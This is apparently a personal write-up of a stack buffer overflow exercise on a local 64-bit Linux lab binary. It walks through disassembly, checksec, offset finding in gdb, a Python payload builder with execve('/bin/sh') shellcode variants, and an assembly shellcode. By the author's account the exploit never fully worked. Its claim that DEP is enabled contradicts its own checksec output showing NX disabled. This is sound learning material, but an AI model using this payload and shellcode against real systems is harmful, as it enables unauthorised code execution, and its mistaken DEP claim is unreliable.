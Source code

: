```yaml
---
title: Exploiting Buffer Overflow
published: true
---
```


For this topic I went with 
[https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](Binary can be found here)

BUT I decided to try and do it via `execve` 

### Disassembly

I made an effort to ignore the source code and use disassembly to identify the buffer overflow. I set the assembly flavor to be Intel for easier reading.

```bash
devel@kub:~/challenges/classic$ objdump -M intel -d ./classic
<snip>
0000000000401176 <vuln>:
  401176:       f3 0f 1e fa             endbr64 
  40117a:       55                      push   rbp
  40117b:       48 89 e5                mov    rbp,rsp
  40117e:       48 83 ec 60             sub    rsp,0x60
  401182:       48 8d 45 a0             lea    rax,[rbp-0x60]
  401186:       ba 90 01 00 00          mov    edx,0x190
  40118b:       48 89 c6                mov    rsi,rax
  40118e:       bf 00 00 00 00          mov    edi,0x0
  401193:       e8 e8 fe ff ff          call   401080 <read@plt>
  401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax
  40119b:       48 8d 55 a0             lea    rdx,[rbp-0x60]
  40119f:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
  4011a2:       89 c6                   mov    esi,eax
  4011a4:       48 8d 3d 59 0e 00 00    lea    rdi,[rip+0xe59]        # 402004 <_IO_stdin_used+0x4>
  4011ab:       b8 00 00 00 00          mov    eax,0x0
  4011b0:       e8 bb fe ff ff          call   401070 <printf@plt>
  4011b5:       48 8d 3d 63 0e 00 00    lea    rdi,[rip+0xe63]        # 40201f <_IO_stdin_used+0x1f>
  4011bc:       e8 9f fe ff ff          call   401060 <puts@plt>
  4011c1:       b8 00 00 00 00          mov    eax,0x0
  4011c6:       c9                      leave  
  4011c7:       c3                      ret    

00000000004011c8 <main>:
  4011c8:       f3 0f 1e fa             endbr64 
  4011cc:       55                      push   rbp
  4011cd:       48 89 e5                mov    rbp,rsp
  4011d0:       48 83 ec 10             sub    rsp,0x10
  4011d4:       89 7d fc                mov    DWORD PTR [rbp-0x4],edi
  4011d7:       48 89 75 f0             mov    QWORD PTR [rbp-0x10],rsi
  4011db:       48 8d 3d 51 0e 00 00    lea    rdi,[rip+0xe51]        # 402033 <_IO_stdin_used+0x33>
  4011e2:       b8 00 00 00 00          mov    eax,0x0
  4011e7:       e8 84 fe ff ff          call   401070 <printf@plt>
  4011ec:       b8 00 00 00 00          mov    eax,0x0
  4011f1:       e8 80 ff ff ff          call   401176 <vuln>
  4011f6:       b8 00 00 00 00          mov    eax,0x0
  4011fb:       c9                      leave  
  4011fc:       c3                      ret    
  4011fd:       0f 1f 00                nop    DWORD PTR [rax]
<snip>
```

The stack space created is 0x60 (96) bytes. We can tell from 
`401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax` and
`401182:       48 8d 45 a0             lea    rax,[rbp-0x60]`

that there are two stack variables at least. The first one is 8 bytes (likely an int) which means there must be another 8 bytes of padding. The remaining 0x50 (80) bytes make up the stack buffer

So in the vuln function there is a buffer of at most 0x50 (80) bytes, but read is given a size of 0x190 (400) bytes.


### checksec

Next up is to determine exactly what security protections are in place. 

```bash
devel@kub:~/challenges/classic$ checksec classic
[*] '/home/devel/challenges/classic/classic'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

devel@kub:~/challenges/classic$ cat /proc/sys/kernel/randomize_va_space 
0
```

We know that DEP is enabled. DEP can be defeated with ROP.

### Buffer Overflow

The first step in any buffer overflow is find the size of the overflow. I'm using PEDA.

I start gdb on the binary. First step is to make a pattern big enough to guarantee an overflow. 0x60 is 96 bytes, so I'll make a pattern of 500 bytes just to be sure.

```bash
db-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
```

Next I run the binary with in.txt as input.

```bash
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA�
No shell for you :(

Program received signal SIGSEGV, Segmentation fault.
```

64 bit doesn't allow direct manipulation of RIP, so I need to look at RSP to see if I control that

```bash
gdb-peda$ x/wx $rsp
0x7fffffffe508: 0x41413741

gdb-peda$ pattern_offset 0x41413741
1094793025 found at offset: 104
```

The overflow occurs at 104 bytes in

### shellcode

The stack is executable so instead of a pattern, I can write shellcode to the buffer

I'm going to use a NOP sled, followed by shellcode that runs `/bin/sh`

#### Gotcha 1
 GDB will show the exploit running by using `r < in.txt`
 
 To get it to run on the command line we need to use trickery. `(cat in.txt ; cat) | ./classic`
 [https://security.stackexchange.com/questions/155844/using-cat-file-cat-to-run-a-simple-bof-exploit](cat BOF)
 
#### Gotcha2
GDB alters the environment by setting LINES and COLUMNS. Unset these live or in .gdbinit
```
unset env LINES
unset env COLUMNS
```

Also remove any environment with `env - /abs/path/classic` and `env - gdb /abs/path/classic`


### results

I never did get the full shellcode running. The addresses are slightly off still

### python 

```py
#!/usr/bin/python3
import struct

buflen = 104
nop = b'\x90' * 40

# 27 byte execve /bin/sh from tutorial
#shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
# call exit instead of execve. Works.
#shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3c\x0f\x05"

# 25 byte execve /bin/sh
#shellcode = b"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\xCC\x0f\x05"

# 30 byte execve /bin/sh
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\xCC\x0f\x05"

# execve /bin/bash with esp math?
#shellcode = b"\xCC\x48\x31\xd2\x52\x48\x83\xec\x40\xc6\x44\x24\x07\x2f\xc7\x44\x24\x08\x62\x69\x6e\x2f\xc7\x44\x24\x0c\x62\x61\x73\x68\x48\x8d\x7c\x24\x07\x52\x57\x48\x89\xe6\x31\xc0\xb0\x3b\xCC\x0f\x05"

# print hello world. works.
#shellcode = b"\xeb\x1e\x5e\x48\x31\xc0\xb0\x01\x48\x89\xc7\x48\x89\xfa\x48\x83\xc2\x0e\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05\xe8\xdd\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a"



#rip = struct.pack("<Q", 0x7fffffffde50) # address of buffer gdb
rip = struct.pack("<Q", 0x7fffffffdea0) # address of buffer normal

padding = b"D" * (buflen - len(nop) - len(shellcode))
payload = nop + shellcode + padding + rip

f = open("in.txt", "wb")
f.write(payload)
f.close()
```

```asm
# nasm -f elf64 sh.s -o sh.o
# ld sh.o -o sh
# gcc -m64 -Wl,-e_start -nostdlib hello.S
	
.section .text
  .globl _start

	_start:
	    # third argument of execve is envp, set to NULL
	    xor %rdx, %rdx 

	    # zero terminator
	    push %rdx

	    # space for string
	    sub $16, %rsp

	    # end is aligned to the zero terminator
	    movb $0x2f, 7(%rsp)        # /
	    movl $0x2f6e6962, 8(%rsp)  # bin/
	    movl $0x68736162, 12(%rsp) # bash
	    movl $0x0a, 16(%rsp)

	    # first argument to execve is the file name
	    leaq 7(%rsp), %rdi

	    # push NULL to the stack, argv terminator
	    pushq %rdx 

	    # also argv[0]
	    push %rdi

	    # second argument to execve is argv
	    mov %rsp, %rsi

	    # copy 59 to rax, defining syscall number for execve
	    # avoid zero byte
	    xor %eax, %eax
	    movb $59, %al 
	    syscall
```
